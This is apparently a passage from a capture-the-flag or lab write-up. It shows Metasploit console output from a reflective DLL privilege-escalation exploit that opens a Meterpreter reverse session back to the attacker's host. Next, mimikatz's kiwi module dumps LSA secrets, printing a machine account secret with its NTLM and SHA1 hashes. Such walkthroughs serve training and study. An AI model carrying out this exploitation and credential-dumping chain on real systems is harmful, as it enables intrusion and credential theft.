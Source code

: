 ```
[*] Reflectively injecting the exploit DLL into 3056...
[*] Injecting exploit into 3056...
[*] Exploit injected. Injecting exploit configuration into 3056...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 192.168.240.80
[*] Meterpreter session 2 opened (10.0.200.2:6666 -> 192.168.240.80:57925) at 2020-11-22 02:19:16 +0800

meterpreter >
```

I'm in as `NT AUTHORITY\SYSTEM`.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

To answer the question, I ran `use kiwi` to load kiwi module and `lsa_dump_secrets` to dump LSA secrets. `Kiwi` module used to perform various types of credential-oriented operations such as dumping passwords and hashes, dumping passwords in memory, generating golden tickets, and more.

```
meterpreter > use kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success.
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : PROD-WEBSRV7765
SysKey : 14a513800f23074d06b371d5b4bfdb86

Local name : PROD-WEBSRV7765 ( S-1-5-21-1669853405-1314316162-1621276032 )
Domain name : MYCOMS ( S-1-5-21-2804598327-1020562986-2106375421 )
Domain FQDN : mycoms.com.local

Policy subsystem is : 1.12
LSA Key(s) : 1, default {623d7843-d8a7-c5a9-01fa-119217f4064e}
  [00] {623d7843-d8a7-c5a9-01fa-119217f4064e} b45240c17c8897e3d5270783f4cc737f278b68d474c51a505bc077bf2220b1df

Secret  : $MACHINE.ACC
cur/text: WI6$*\T[fZ%F!qqD%?^U]E"jn &Cne6fI2qCJp wz9<@K!wVZi;^3vnV>b(9g3l2#o@q%bEko62%n2`ogG2rwc6/@XNumW__4/b;j8j/k0o++/n ._/s9`^'
    NTLM:eddb95449e4807dedc0d2ecdbe361719
    SHA1:2e0566e564a5cb48646c1d3560022113efdc4df5
old/text: WI6$*\T[fZ%F!qqD%?^U]E"jn &Cne6fI2qCJp wz9<@K!wVZi;^3vnV>b(9g3l2#o@q%bEko62%n2`ogG2rwc6/@XNumW__4/b;j8j/k0o++/n ._/s9`^'
    NTLM:eddb95449e4807dedc0d2ecdbe361719
    SHA1:2e0566e564a5cb48646c1d3560022113efdc4df5

Secret  : DefaultPassword

Secret  : DPAPI_SYSTEM
```
